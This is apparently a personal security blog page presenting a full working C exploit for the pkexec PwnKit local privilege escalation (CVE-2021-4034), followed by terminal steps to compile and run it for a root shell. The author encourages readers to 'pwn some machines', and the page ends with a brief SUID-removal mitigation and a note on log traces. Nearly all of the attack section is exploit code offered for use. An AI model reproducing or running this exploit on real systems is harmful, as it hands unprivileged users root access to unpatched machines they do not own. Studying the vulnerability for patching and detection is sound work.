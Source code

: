 ```yaml
---
layout: default
title : muzec - Polkit Pkexec (PwnKit) -  Local Privilege Escalation - CVE-2021-4034
---
```


### Description

A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

### CVE

CVE-2021-4034

### Exploit Code Below;

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
  "#include <stdio.h>\n"
  "#include <stdlib.h>\n"
  "#include <unistd.h>\n\n"
  "void gconv() {}\n"
  "void gconv_init() {\n"
  "  setuid(0); setgid(0);\n"
  "  seteuid(0); setegid(0);\n"
  "  system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
  "  exit(0);\n"
  "}";

int main(int argc, char *argv[]) {
  FILE *fp;
  system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
  system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
  fp = fopen("pwnkit/pwnkit.c", "w");
  fprintf(fp, "%s", shell);
  fclose(fp);
  system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
  char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
  execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

### Exploiting Target Below;

Save exploit in a file name `exploit.c` or anything you like but it must end with `.c` let jump in already to get root lol.

```
┌──(muzec㉿Muzec-Security)-[~]
└─$ pkexec --version                                                                                                                                             127 ⨯
pkexec version 0.105
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~]
└─$ cat /etc/issue
Kali GNU/Linux Rolling \n \l

                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~]
└─$ uname -a             
Linux Muzec-Security 5.10.0-kali4-amd64 #1 SMP Debian 5.10.19-1kali1 (2021-03-03) x86_64 GNU/Linux
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~]
└─$ lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2021.1
Codename:       kali-rolling
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~]
└─$ nano exploit.c 
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~]
└─$ gcc exploit.c -o exploit
```

Now that we have compile it let run it and have a shining root .

![image](https://user-images.githubusercontent.com/69868171/151332320-d25cd237-7c38-4ff0-a397-8a3738196f36.png)


![image](https://user-images.githubusercontent.com/69868171/151332459-c3ce8c3f-3b7f-42eb-a0fa-26e89c971dd7.png)

Awesome right?? Now go ahead and pwn some machines wink: wink: 

If no patches are available for your Linux distro, as a short-term solution, you can remove the SUID-bit from `pkexec:` 

```
chmod 0755 /usr/bin/pkexec
```

Qualys also notes that the exploitation technique leaves traces in logs, that say either “The value for the SHELL variable was not found the /etc/shells file…" or “The value for environment variable … contains suspicious content."


Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
